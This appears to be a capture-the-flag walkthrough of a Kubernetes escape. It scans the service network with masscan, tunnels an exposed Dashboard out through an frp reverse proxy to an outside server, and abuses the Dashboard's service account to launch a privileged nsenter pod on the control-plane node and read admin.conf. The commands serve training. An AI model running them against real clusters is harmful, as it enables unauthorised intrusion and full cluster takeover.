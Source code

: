 # CTF Solution Scenario2

Don't peek if your are still doing the CTF!

First we want to break out the Clusters. This pod is not privileged. We have found a Service Account but we don't know what to do with it. Let us see if we find something on the Network.

## get service ip

Let us start with the Service Network. For that we can check the arbitrary service kubernetes.svc.local which is available in every namespace. Maybe also the ip of kubernetes dns in /etc/resolv.conf should help

```bash
dig kubernetes
```

Now we are ready to scan the network of this svc. We know that it is small so let's start with /24 and some typical ports. We use `masscan` which is already installed. But you could use any network scanner:

```bash
masscan -p80,22,443 10.96.0.0/24
```

## Connect through Backtunnel and proxy

Hey we found a host running HTTP, let us check this service:

```bash
curl 10.96.0.99
```

Nice a Kubernetes Dashboard, let us connect to it using our local Brower and a bit of proxy magic

### start proxy to tunnel to web through ssh

We use a changed version of [this example](https://github.com/fatedier/frp?tab=readme-ov-file#access-your-computer-in-a-lan-network-via-ssh).

Download and untar frps on your local VM (in annother terminal)

```bash
curl -s -L https://github.com/fatedier/frp/releases/download/v0.61.0/frp_0.61.0_linux_amd64.tar.gz | tar xzf - -C .
cd frp_0.61.0_linux_amd64
```

Now we start a local server which the client on our hacked container can call to:

```bash
curl ifconfig.me # get ip of vm
ip route get IP-of-SSH-Command # get our interface ip of the ssh-pod
cat <<\EOF >> my-frps.toml
bindPort = 7000
EOF
./frps -c my-frps.toml
```

So now in our hacked container terminal, also download frpc if it is not available:

```bash
curl -s -L https://github.com/fatedier/frp/releases/download/v0.61.0/frp_0.61.0_linux_amd64.tar.gz | tar xzf - -C .
cd frp_0.61.0_linux_amd64
```

and start calling our server

```bash
cat <<\EOF >> my-frpc.toml
serverAddr = "172.18.0.1" # if unsure about the ip connecting to your server use ip route get [hacked-container-ip]
serverPort = 7000

[[proxies]]
name = "web"
type = "tcp"
localPort = 80
localIP = "10.96.0.99"
remotePort = 8181
EOF
./frpc -c my-frpc.toml # start the client
```

If you did connect directly from your local machine use type
localhost:8181 in your browser
On the VM do
curl ifconfig.me
and use this IP Address (and realize you made this service public without authentication)!

## Kube-Dashboard

Wow you could click "Skip" and authenticate with the Service Account of the Dashboard itself.
Big mistake there. Now we browse around.

Change the namespace of the ones we know:
kube-system....no luck
default....no luck
kubernetes-dashboard...bingo
We see something, even the roles!
We can exectue hosts, let go for the crown-jewels: privileged pod on the control-plane.

Create this pod:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: nsenter
  name: nsenter
  namespace: kubernetes-dashboard
spec:
  containers:
  - command:
    - nsenter
    - --target
    - "1"
    - --mount
    - --uts
    - --ipc
    - --net
    - --pid
    - bash
    - -l
    - -c
    - "sleep infinity"
    image: docker.io/library/alpine
    imagePullPolicy: Always
    name: nsenter
    resources:
      limits:
        cpu: 100m
        memory: 256Mi
      requests:
        cpu: 100m
        memory: 256Mi
    securityContext:
      privileged: true
  dnsPolicy: ClusterFirst
  enableServiceLinks: true
  hostNetwork: true
  hostPID: true
  nodeName: kind-control-plane
  tolerations:
  - key: CriticalAddonsOnly
    operator: Exists
  - effect: NoExecute
    operator: Exists
EOF
```

and exec into it:

```bash
kubectl -n kubernetes-dashboard exec -it nsenter -- /bin/bash
```

There check if we have admin access now:

```bash
mkdir /mnt/hola

kubectl --kubeconfig /etc/kubernetes/admin.conf get ns
```

We are running as cluster admin and found the flag in the namespaces :-)
